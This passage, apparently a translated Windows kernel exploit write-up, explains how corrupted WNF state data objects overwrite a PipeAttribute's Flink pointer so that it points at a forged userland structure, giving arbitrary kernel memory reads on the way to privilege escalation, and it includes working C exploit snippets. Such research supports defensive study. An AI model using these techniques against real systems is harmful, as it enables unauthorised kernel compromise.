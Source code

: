 在 Windows 上，由于向后兼容性的原因，未启用监督模式访问保护 (SMAP)。因此，内核可以访问用户空间的数据。为了实现任意读取，我们可以使用被破坏的 _WNF_STATE_DATA  
 对 PipeAttribute  
 的 LIST_ENTRY  
 中的 Flink  
 指针执行越界写入，使其指向用户空间中的伪造 PipeAttribute  
 结构。这样，我们就可以设置 AttributeValueSize  
 和 AttributeValue  
，从而实现从任意内核地址读取数据。  
  
我们可以在用户空间中设置伪造的 PipeAttribute  
 对象，如下所示：  
```
    // Set up fake userland pipe_attribute object 
    *(unsigned long long *)(FakePipe) = (unsigned long long)FakePipe2; // Flink
    *(unsigned long long *)(FakePipe + 0x8) =  (unsigned long long)pipe_leak; // Blink
    *(unsigned long long *)(FakePipe + 0x10) = (unsigned long long)FakePipeName; // Attribute name
    *(unsigned long long *)(FakePipe + 0x18) = 0x30; // Attribute value size -- LEAK SIZE
    *(unsigned long long *)(FakePipe + 0x20) = (unsigned long long)ALPC_leak; // Attribute value -- LEAK POINTER
    *(unsigned long long *)(FakePipe + 0x28) = 0x4545454545454545; // Data
```  
  
然后使用我们第二个被破坏的 _WNF_STATE_DATA  
 对象来覆写内核内存中相邻 PipeAttribute  
 对象的 Flink  
 指针：  
```
    // Using WNF object 1 to overwrite flink of pipe_attribute
    printf("[+] Using WNF object 1 to corrupt pipe_attribute\n");
    memset(StateData, 0x0, sizeof(StateData)); 
    memset(StateData, 0x47, 0x200); // Just so that it is easier to see the object
    *(unsigned long long *)(StateData + 0xff0) = (unsigned long long)FakePipe;
    state = NtUpdateWnfStateData(&SecondStateNames[CorruptedWNFidx2], StateData, 0xff8, NULL, NULL, 0xbeef, NULL); 

```  
  
现在内存布局如下所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP5GjWVWpcFsJHdSZibATFcicrTPvrib55rEHPkYT6drEFuicqwliaIiabuYX1WeJGWysOqZQibUKg8jvATA/640?wx_fmt=png&from=appmsg "")  
  
Memory 6  
  
我们现在可以执行任意读取操作。我们首先要读取的是之前泄露的 _KALPC_RESERVE  
 指针。通过读取 _KALPC_RESERVE  
，我们可以获得指向 _ALPC_PORT  
 结构的指针：  
```
struct _ALPC_PORT
{
    struct _LIST_ENTRY PortListEntry;                                       //0x0
    struct _ALPC_COMMUNICATION_INFO* CommunicationInfo;                     //0x10
    struct _EPROCESS* OwnerProcess;                                         //0x18
    ...
}
```  
  